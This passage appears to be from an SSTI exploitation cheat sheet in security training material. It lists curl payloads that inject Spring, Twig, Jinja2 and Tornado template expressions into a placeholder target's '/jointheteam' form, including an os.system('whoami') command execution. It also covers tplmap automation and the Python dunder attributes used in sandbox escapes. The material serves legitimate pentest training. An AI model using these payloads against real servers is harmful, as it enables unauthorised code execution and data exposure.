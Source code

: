 | `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam`                                                                    | Interacting with the remote target (Spring payload)                  |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam`                                              | Interacting with the remote target (Twig payload)                    |
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam`                                                        | Interacting with the remote target (Jinja2 basic injection)          |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam`                                          | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email=<div data-gb-custom-block data-tag="import"></div>{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload)                 |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah`                                                                    | Automating the exploitation process with tplmap                      |

## SSTI Exploitation Example 3

| **Command**                                                  | **Description**                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------------- |
| `curl -gs "http://<TARGET IP>:<PORT>/execute?cmd={{7*'7'}}"` | Interacting with the remote target (Confirming Jinja2 backend)      |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd'`     | Automating the templating engine identification process with tplmap |
| `python3`                                                    | Starting the python3 interpreter                                    |

| **Methods**      | **Description**                                                                                                                     |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| `__class__`      | Returns the object (class) to which the type belongs                                                                                |
| `__mro__`        | Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples.                       |
| `__subclasses__` | Each new class retains references to subclasses, and this method returns a list of references that are still available in the class |
| `__builtins__`   | Returns the builtin methods included in a function                                                                                  |
| `__globals__`    | A reference to a dictionary that contains global variables for a function                                                           |
| `__base__`       | Returns the base class inherited by the object                                                                                      |
| `__init__`       | Class initialization method                                                                                                         |
